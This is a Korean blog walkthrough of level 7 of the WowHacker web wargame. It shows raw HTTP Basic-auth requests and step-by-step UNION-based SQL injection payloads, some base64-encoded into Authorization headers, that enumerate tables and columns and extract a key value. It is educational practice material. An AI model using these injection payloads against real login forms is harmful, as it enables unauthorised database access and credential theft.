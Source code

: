 ```yaml
---
layout: post
title: "WowHacker Webgemae level7"
description: ""
categories : ""
sub_categories : ""
date: 2015-09-08
categories : ""
sub_categories : ""
tags: ['7번', '7본', '문제풀이', '심심', '심심할때', '와우해커', '와우해킹', '워게임', '웹해킹', '정답', '풀이', '해답', '해킹']
comments: true
share: true
---
```


하루하루 진행하다보니, 일주일사이에 7번 문제풀이를 하게되었네요.

올드좀비님의 Webhacking.kr 도 함께하고 리버싱.kr 도 함께 연재하고있으니 관심있는 분들은 한번봐주시고 피드백도 부탁드립니다.

참고로 오늘은 급하게(?) 포스팅하는 관계로 포스팅에 이전보다 많은 오타가 있을 것으로 보아 지니. . . 오타가 있다면 피드백 좀
부탁드립니다. 주소만 보았을 때, 왠지 Mysql 관련 문제일 것 같네요.

일단 해당 주소로 접근해봅시다.

  

처음에 얻은 정보는 (guest/guest) 게스트 계정 정보를 얻었네요.

  

  

![](/assets/images/posts/86/2757E44155EEC3A51220FF.PNG)

  

  

  

  

흠, 이 문제 이전 5번문제와 매우 비슷한 것 같습니다.

일단 프록실정해주시구요. guest 계정으로 접근해봅시다.

  

"서버 메세지 : Zaemitneun Webgame - Do not attack Bruteforce"

Bruteforce는 무차별 대입공격입니다. 지금 여러 방식으로 변형되어 사용되고있지만 많은 시간이 소요되는 공격기법입니다.

또 서버에 무리를 많이 주기때문에 서버측은 공격자를 빠르게 식별할수있습니다. 하지만 오늘의 문제와는 거리가 멀기때문에 각설하고 . .

  

![](/assets/images/posts/86/264EFC4155EEC3A71CC316.PNG)

  

게스트 계정으로 로그인했습니다.

제가 request 보낸 값입니다. 아파치 취약점을 이용해서 OPTIONS 메서드로 재 Request 값을 보냅니다.

Authorization에 "Z3Vlc3Q6Z3Vlc3Q=" 값은 base64로 인코딩되어있는 값 입니다. 디코딩을 하면
guest:guest 라는 값을 얻습니다.

따라서 우리는 admin:admin이라는 값으로 한번 시도해봅시다. admin:admin 을 base64로 인코딩하면 이와 같은 값을
얻습니다 "YWRtaW46YWRtaW4=" 한번 요청을 보내봅시다.

*guest request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic Z3Vlc3Q6Z3Vlc3Q=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

*admin request

GET http://webgame.wowhacker.com/AuThWithMySQL/ HTTP/1.1

Host: webgame.wowhacker.com

Proxy-Connection: keep-alive

Cache-Control: max-age=0

Authorization: Basic YWRtaW46YWRtaW4=

Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like
Gecko) Chrome/45.0.2454.85 Safari/537.36 Paros/3.2.13

Accept-Encoding: sdch

Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4

  

![](/assets/images/posts/86/27055B3755EEC47F333458.PNG)

  

  

어드민 계정에 접근했습니다.

게스트 페이지와 다를게 없습니다. 다른거라고는 어드민 기본정보들? 하지만 이 기본정보들이 힌트가 됩니다.(나중참고)

따로 관리 툴이나 어드민 권한을 이용해서 별도의 패널에 접근할수는 없는 것 같습니다.

힌트도 없구요.

  

문제출제의도를 보면 SQL Injection을 통해서 admin 패스워드를 알아내야하는 것 같습니다.

그렇다면 우선 컬럼의 수를 알아봅시다. 컬럼수는 계정정보를보면 쉽게 추측할수있습니다.

"name,group,address,phone number,hitnum + password" 총 6개의 컬럼으로 추측할수있습니다.

계정인증폼으로 돌아가서 아이디란에 admin옆 싱글 쿼터를 닫고 쿼리문을 날려봅니다.

hax0r'union select '1','2','3','4','5','6'#:1234

  

![](/assets/images/posts/86/2376A03555EEC56A25081B.PNG)

  

name = "1",group"3",address"4",phone number"5",hitnum"6" 이라는걸 알았을때, 패스워드컬럼이
두번째 컬럼이라는것을 알수있습니다. 컬럼수가 6개 인것을 확실하게 확인했고, 이제 테이블을 알아내봅시다. 테이블명들을 group 항목으로
출력합시다.

쿼터문 준비하고, 날립니다. hax0r'union select '1','2',(select group_concat(table_name)
from information_schema.tables),'4','5','6'#:1234

aGF4MHIndW5pb24gc2VsZWN0IChzZWxlY3QgZ3JvdXBfY29uY2F0KHRhYmxlX25hbWUpIGZyb20gaW
5mb3JtYXRpb25fc2NoZW1hLnRhYmxlcyksJzInLCczJywnNCcsJzUnLCc2JyM6MTIzNDo=

Authorization 부분을 보면 Basic 인증을 사용하며 아이디와 패스워드에 구분자 ":"를 사용하고있습니다.

또 Request할때 base64로 인코딩 되구요. 따라서 그냥 입력폼에 기본 쿼터문만 입력해도되고 아니면 직접 request할때
base64로 인코딩해서 날리면 됩니다.

  

  

![](/assets/images/posts/86/277FC54A55EEDD2E0FF583.PNG)

  

  

group: CHARACTER_SETS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS
,COLUMN_PRIVILEGES,KEY_COLUMN_USAGE,PROFILING,ROUTINES,SCHEMATA,SCHEMA_PRIVILE
GES,STATISTICS,TABLES,TABLE_CONSTRAINTS,TABLE_PRIVILEGES,TRIGGERS,USER_PRIVILE
GES,VIEWS,keytable,user_info

  

수상한 테이블 두개를 발견했습니다. 맨 끝에 'keytable','user_info' 테이블입니다.

user_info에는 이전 name = "1",group"3",address"4",phone number"5",hitnum"6" 컬럼이
있나봅니다.

keytable에 어떤 컬럼이 있는지 조회하기 위해서는 "information_schema.columns" 의 "column_name"필드를
이용((select group_concat(column_name) from information_schema.columns where
table_name='keytable'))하면 됩니다.

쿼터문을 짜주시고, 날립시다.

hax0r'union select '1','2',(select group_concat(column_name) from
information_schema.columns where table_name='keytable'),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCBncm91cF9jb
25jYXQoY29sdW1uX25hbWUpIGZyb20gaW5mb3JtYXRpb25fc2NoZW1hLmNvbHVtbnMgd2hlcmUgdGF
ibGVfbmFtZT0na2V5dGFibGUnKSwnNCcsJzUnLCc2JyM6MTIzNA06

  

  

![](/assets/images/posts/86/22270A4955EEE07505AC4C.PNG)

  

![](/assets/images/posts/86/2113214455EEE2D1194F69.PNG)

  

  

keytable의 컬럼명을 얻었습니다. no는 번호인것같고 value 해당 컬럼의 정보갔습니다.

limit을 이용하여 value 컬럼에 있는 값을 뽑아((select value from keytable limit 0,1))봅시다.

쿼터문을 준비하고, 날려줍시다.

hax0r'union select '1','2',(select value from keytable limit
0,1),'4','5','6'#:1234

Authorization: Basic aGF4MHIndW5pb24gc2VsZWN0ICcxJywnMicsKHNlbGVjdCB2YWx1ZSBmc
m9tIGtleXRhYmxlIGxpbWl0IDAsMSksJzQnLCc1JywnNicjOjEyMzQ6

  

  

![](/assets/images/posts/86/2470774E55EEE3B50E8B9C.PNG)

  

키 값을 얻었습니다. "If you dream it, you can do it"

"꿈꿀 수 있다면, 그것을 실현하는 것도 가능하다." 멋진 말 이네요.

  

7번 문제 클리어.

문제는 총 10번까지 있으며 다음은 8번 문제를 연재하겠습니다

8번은 로그인, 인증 관련 문제입니다. 이것도 왠지 인젝션 일 것 같은데.

  

![](/assets/images/posts/86/23237D5055EEE50D1FFCCA.JPEG)

  

  

  

  

  

  

  

  

